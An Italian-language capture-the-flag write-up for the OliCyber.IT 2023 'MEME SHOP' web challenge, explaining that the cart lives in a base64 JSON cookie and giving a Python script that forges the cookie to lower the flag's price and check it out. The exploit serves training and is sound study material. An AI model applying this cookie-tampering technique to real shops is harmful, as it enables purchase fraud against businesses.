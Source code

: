 # OliCyber.IT 2023 - Simulazione training camp 2

## [web] MEME SHOP (129 risoluzioni)

L'applicazione si presenta come un piccolo ecommerce che ci permette di comprare meme.
Tra i prodotti da acquistare c'è una flag ma sfortunatamente costa 100 mentre il nostro credito è di 10.

Utilizzando il sito possiamo notare che il carrello è salvato all'interno del cookie `cart`.
Si può indovinare essere codificato in base64, infatti procedendo alla decodifica si ottiene un json:

```json
{
  "nome_oggetto": {
    "price": 1,
    "qty": 1,
    "item_id": 2
  }
}
```

### Soluzione

Provando a modificare il contenuto del cookie possiamo crearne uno che contiene la flag ma con un prezzo modificato, o una quantità modificata. Questo modificasia la grafica vista che il calcolo del totale.

Possiamo quindi procedere al checkout del carrello craftato in questa maniera ed ottenere la flag!

### Exploit

```python
#!/bin/python3

import requests
import random
import string
import base64
import json
import re

def random_string(k=10):
    return ''.join(random.choices(string.ascii_letters, k=k))

s = requests.Session()

base_url = 'http://meme_shop.challs.olicyber.it'

# Register
data = {
    'username': random_string(20),
    'password': random_string(20),
}
data['passwordConfirm'] = data['password']

r = s.post(f'{base_url}/register.php', data=data)

tampered_cookie = {
    'flag': {
        'price': 1,
        'qty': 1,
        'item_id': 1,
    }
}

tampered_cookie = json.dumps(tampered_cookie)
tampered_cookie = base64.b64encode(tampered_cookie.encode())
tampered_cookie = tampered_cookie.decode()

s.cookies.set('cart', tampered_cookie)

r = s.post(f'{base_url}/checkout.php')

flag = re.findall('flag\{.*\}', r.text)[0]

print(flag)
```
